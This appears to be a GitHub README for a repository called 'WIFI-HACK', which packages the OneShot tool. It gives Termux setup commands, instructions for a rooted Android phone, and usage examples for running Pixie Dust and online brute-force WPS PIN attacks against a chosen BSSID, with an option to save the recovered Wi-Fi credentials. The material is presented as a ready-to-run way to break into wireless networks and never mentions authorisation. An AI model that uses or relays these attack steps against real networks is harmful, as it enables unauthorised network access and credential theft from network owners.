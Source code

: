 # Setup
```
pkg update && pkg upgrade -y
pkg install git -y
pkg install python -y
git clone https://github.com/ALAMIN-2K07/WIFI-HACK
cd WIFI-HACK
ls
chmod +x oneshot.py
ls
bash installer.sh
```
```
cd WIFI-HACK
```
```
ls
```
```
sudo python oneshot.py -i wlan0 -K
```

## [Brute Force]
```
cd WIFI-HACK
```
```
ls
```
```
sudo python oneshot.py -i wlan0 -K
```
Now we will copy the BSSID, which will look a bit like a MAC address. Example: B4:0F:3B:57:F0:90 -B

Then we will press Ctrl + C, which will close the tool.

Then we will move to the home directory with the ```cd``` command.
```
cd WIFI-HACK
```
```
sudo python oneshot.py -i wlan0 -b (BSSID) -B
```

## [What is needed]
Mobile must be rooted.

need to flash the Busy Box module in the magisk app.
[BusyBox](https://downloads.sourceforge.net/project/magiskfiles/module-uploads/busybox-ndk-13016.zip?ts=gAAAAABoUawiHNA0RcCUZkQCmzFX1VHF8eXVr8-mDAw0nSBMpqcEjeIdA5op6ADzSTF99N89Qbu0w5JOghLJU-hm68MYOX3P7w%3D%3D&use_mirror=netix&r=https%3A%2F%2Fmagiskmodule.gitlab.io%2F)

When giving the last command, you need to turn off WiFi and data connection and turn on hotspot.

# Usage
```
 oneshot.py <arguments>
 Required arguments:
     -i, --interface=<wlan0>  : Name of the interface to use

 Optional arguments:
     -b, --bssid=<mac>        : BSSID of the target AP
     -p, --pin=<wps pin>      : Use the specified pin (arbitrary string or 4/8 digit pin)
     -K, --pixie-dust         : Run Pixie Dust attack
     -B, --bruteforce         : Run online bruteforce attack
     --push-button-connect    : Run WPS push button connection

 Advanced arguments:
     -d, --delay=<n>          : Set the delay between pin attempts [0]
     -w, --write              : Write AP credentials to the file on success
     -F, --pixie-force        : Run Pixiewps with --force option (bruteforce full range)
     -X, --show-pixie-cmd     : Alway print Pixiewps command
     --vuln-list=<filename>   : Use custom file with vulnerable devices list ['vulnwsc.txt']
     --iface-down             : Down network interface when the work is finished
     -l, --loop               : Run in a loop
     -r, --reverse-scan       : Reverse order of networks in the list of networks. Useful on small displays
     --mtk-wifi               : Activate MediaTek Wi-Fi interface driver on startup and deactivate it on exit
                                (for internal Wi-Fi adapters implemented in MediaTek SoCs). Turn off Wi-Fi in the system settings before using this.
     -v, --verbose            : Verbose output
 ```

## Usage examples
Start Pixie Dust attack on a specified BSSID:
 ```
 sudo python3 oneshot.py -i wlan0 -b 00:90:4C:C1:AC:21 -K
 ```
Show avaliable networks and start Pixie Dust attack on a specified network:
 ```
 sudo python3 oneshot.py -i wlan0 -K
 ```
Launch online WPS bruteforce with the specified first half of the PIN:
 ```
 sudo python3 oneshot.py -i wlan0 -b 00:90:4C:C1:AC:21 -B -p 1234
 ```
 Start WPS push button connection:s
 ```
 sudo python3 oneshot.py -i wlan0 --pbc
 ```
## Troubleshooting
#### "RTNETLINK answers: Operation not possible due to RF-kill"
 Just run:
```sudo rfkill unblock wifi```
#### "Device or resource busy (-16)"
 Try disabling Wi-Fi in the system settings and kill the Network manager. Alternatively, you can try running OneShot with ```--iface-down``` argument.
#### The wlan0 interface disappears when Wi-Fi is disabled on Android devices with MediaTek SoC
 Try running OneShot with the `--mtk-wifi` flag to initialize Wi-Fi device driver.
